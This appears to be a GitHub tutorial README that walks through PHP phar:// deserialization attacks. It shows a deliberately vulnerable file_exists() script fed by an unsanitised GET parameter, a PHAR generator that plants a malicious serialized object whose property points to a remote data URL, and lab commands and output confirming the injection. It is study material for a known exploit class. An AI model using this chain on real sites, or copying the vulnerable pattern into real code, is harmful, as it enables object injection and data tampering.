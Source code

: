 
file_exists + phar:// + gadget === <3

#### ----------------


Build-in PHP web server
```
# php -S 127.0.0.1:8081
# php -l file.php # check for syntax errors
```


File `01.file_exists.php`

```php
<?php

if (file_exists($_GET['img'])) {
   echo 'OK';
} else {
   echo 'Nope';
}
```

Usage
```
# http 127.0.0.1:8081/01.file_exists.php?img=phar://evil.phar -b
```
- `evil.phar` uploaded by user as image
- `evil.phar` contains PHP code like
```
class Users {
    $userdb = 'http://site.com/fetch.json'
}
```


#### ----------------


Users db:
```
# cat make_users_db.php
<?php
$user = ['admin' => [ 'role' => 'administrator']];
file_put_contents('users_db.json', json_encode($user));
# php make_users_db.php
# cat users_db.json && echo
{"admin":{"role":"administrator"}}
```

File `02.wakeup.php`
```php
<?php
class UsersCollection {
    public $dbfile = 'users_db.json';
    public $users = [];
    function __wakeup() {
        $this->users = json_decode(
            file_get_contents($this->dbfile),
            true
        );
        print_r($this->users);
    }
}
$users = new UsersCollection();
$users->__wakeup();
```

Usage
```
# http 127.0.0.1:8081/02.wakeup.php -b
Array
(
    [admin] => Array
        (
            [role] => administrator
        )

)
```


#### ----------------


File `02.wakeup.php`
```php
<?php
class UsersCollection {
    public $dbfile = 'users_db.json';
    public $users = [];

    function __wakeup() {
        // will get called
        $this->users = json_decode(file_get_contents($this->dbfile), true);
        print_r($this->users);
    }

    function __construct() {
        // will get called
    }
    function __destruct() {
        // will get called
    }
}
if (file_exists($_GET['f'])) {
    $users = new UsersCollection();
}
```

```
# http 127.0.0.1:8081/02.wakeup.php?f=users_db.json -b
```

PHAR generator `phar_generator.php`
```php
<?php
class UsersCollection { }
$users = new UsersCollection();
$users->dbfile = 'http://127.0.0.1:9999/data.json';

$phar = new Phar('data.phar');
$phar->startBuffering();
$phar->addFromString('data.txt', 'data');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->setMetadata($users);
$phar->stopBuffering();
```

PHP-ini config must be modified to allow us create PHAR files
```
# for i in `locate cli/php.ini | grep etc`; do sed -i 's/;phar.readonly = On/phar.readonly = Off/g' $i; done
# locate cli/php.ini | grep etc | xargs grep 'phar.' | grep -vE '^;'
phar.readonly = Off
``` 

```
# php phar_generator.php
# hexdump -C data.phar
```

Generate `data.json` as well
```
# php -r '$user=["fake"=>["role"=>"dummy"]];file_put_contents("data.json",json_encode($user));'
# python -m http.server 9999
```

Usage
```
# http 127.0.0.1:8081/02.wakeup.php?f=phar://data.phar -b
Array
(
    [fake] => Array
        (
            [role] => dummy
        )

)
```
